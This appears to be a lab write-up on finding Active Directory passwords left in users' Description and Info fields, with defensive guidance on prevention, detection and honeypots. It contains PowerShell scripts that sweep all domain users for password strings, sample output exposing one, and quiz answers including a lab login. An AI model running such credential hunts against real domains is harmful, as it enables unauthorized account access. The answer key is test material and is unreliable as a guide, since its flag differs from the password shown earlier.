


import RevealFlag from '@site/src/components/RevealFlag';

# Credentials in Object Properties

## Description

Objects in Active Directory have a plethora of different properties; for example, a `user` object can contain properties that contain information such as:

- Is the account active
- When does the account expire
- When was the last password change
- What is the name of the account
- Office location for the employee and phone number

When administrators create accounts, they fill in those properties. A common practice in the past was to add the user's (or service account's) password in the `Description` or `Info` properties, thinking that administrative rights in AD are needed to view these properties. However, `every` domain user can read most properties of an object (including `Description` and `Info`).

---

## Attack

A simple PowerShell script can query the entire domain by looking for specific search terms/strings in the `Description` or `Info` fields:

```powershell
Function SearchUserClearTextInformation
{
    Param (
        [Parameter(Mandatory=$true)]
        [Array] $Terms,

        [Parameter(Mandatory=$false)]
        [String] $Domain
    )

    if ([string]::IsNullOrEmpty($Domain)) {
        $dc = (Get-ADDomain).RIDMaster
    } else {
        $dc = (Get-ADDomain $Domain).RIDMaster
    }

    $list = @()

    foreach ($t in $Terms)
    {
        $list += "(`$_.Description -like `"*$t*`")"
        $list += "(`$_.Info -like `"*$t*`")"
    }

    Get-ADUser -Filter * -Server $dc -Properties Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet |
        Where { Invoke-Expression ($list -join ' -OR ') } | 
        Select SamAccountName,Enabled,Description,Info,PasswordNeverExpires,PasswordLastSet | 
        fl
}
```

We will run the script to hunt for the string `pass`, to find the password `Slavi123` in the `Description` property of the user `bonni`:

```powershell
PS C:\Users\bob\Downloads> SearchUserClearTextInformation -Terms "pass"

SamAccountName       : bonni
Enabled              : True
Description          : pass: Slavi123
Info                 : 
PasswordNeverExpires : True
PasswordLastSet      : 05/12/2022 15.18.05
```


---

## Prevention

We have many options to prevent this attack/misconfiguration:

- `Perform continuous assessments` to detect the problem of storing credentials in properties of objects.
- `Educate` employees with high privileges to avoid storing credentials in properties of objects.
- `Automate` as much as possible of the user creation process to ensure that administrators don't handle the accounts manually, reducing the risk of introducing hardcoded credentials in user objects.

---

## Detection

Baselining users behavior is the best technique for detecting abuse of exposed credentials in properties of objects. Although this can be tricky for regular user accounts, triggering an alert for administrators/service accounts whose behavior can be understood and baselined is easier. Automated tools that monitor user behavior have shown increased success in detecting abnormal logons. In the example above, assuming that the provided credentials are up to date, we would expect events with event ID [4624](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624)/[4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625) *(failed and successful logon)* and [4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4768) *(Kerberos TGT requested)*. Below is an example of [event ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4768):


Unfortunately, the [event ID 4738](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4738) generated when a user object is modified does not show the specific property that was altered, nor does it provide the new values of properties. Therefore, we cannot use this event to detect if administrators add credentials to the properties of objects.

---

## Honeypot 🍯

Storing credentials in properties of objects is an excellent honeypot technique for not-very-mature environments. If struggling with basic cyber hygiene, then it is more likely expected to have such issues (storing credentials in properties of objects) in an AD environment. For setting up a honeypot user, we need to ensure the followings:

- The password/credential is configured in the `Description` field, as it's the easiest to pick up by any adversary.

- The provided password is fake/incorrect.

- The account is enabled and has recent login attempts.

- While we can use a regular user or a service account, service accounts are more likely to have this exposed as administrators tend to create them manually. In contrast, automated HR systems often make employee accounts (and the employees have likely changed the password already).

- The account has the last password configured 2+ years ago (makes it more believable that the password will likely work).

Because the provided password is wrong, we would primarily expect failed logon attempts; three event IDs ([4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625), [4771](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4771), and [4776](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4776)) can indicate this. Here is how they look in our playground environment if an attacker is attempting to authenticate with the account `svc-iis` and a wrong password:

- [4625](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4625)


---

- [4771](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4771)



---

- [4776](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4776)


---

## Questions

### `1. Connect to the target and use a script to enumerate object property fields. What password can be found in the Description field of the bonni user?`

<RevealFlag>{`Slavi1234`}</RevealFlag>

```powershell
# Define keywords to search for in any user field
$keywords = @("pass", "pw", "eagle")

# AD text fields to scan (can be expanded)
$fieldsToCheck = @("Description", "Info", "DisplayName", "Title", "Department")

# Get all users from AD
$users = Get-ADUser -Filter * -Properties * -ErrorAction SilentlyContinue

# Store results
$results = @()

foreach ($user in $users) {
    foreach ($field in $fieldsToCheck) {
        $value = $user.$field
        if ($value -and ($keywords | Where-Object { $value.ToLower().Contains($_.ToLower()) })) {
            $matchedWords = ($keywords | Where-Object { $value.ToLower().Contains($_.ToLower()) }) -join ", "
            $results += [PSCustomObject]@{
                Timestamp   = (Get-Date).ToString("yyyy-MM-dd HH:mm:ss")
                SamAccount  = $user.SamAccountName
                Field       = $field
                Match       = $matchedWords
                Content     = $value.Trim()
            }
        }
    }
}

# Output results
if ($results.Count -gt 0) {
    $results | Sort-Object SamAccount, Field | Format-Table -AutoSize
} else {
    Write-Host "No matches found." -ForegroundColor Yellow
}
```

```powershell
Timestamp           SamAccount Field       Match Content
---------           ---------- -----       ----- -------
2025-04-24 00:01:06 bonni      Description pass  pass: <Password>
```

---

### `2. Using the password discovered in the previous question, try to authenticate to DC1 as the bonni user. Is the password valid?`

<RevealFlag>{`No`}</RevealFlag>

---

### `3. Connect to DC1 as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the TargetSid of the bonni user?`

<RevealFlag>{`S-1-5-21-1518138621-4282902758-752445584-3102`}</RevealFlag>

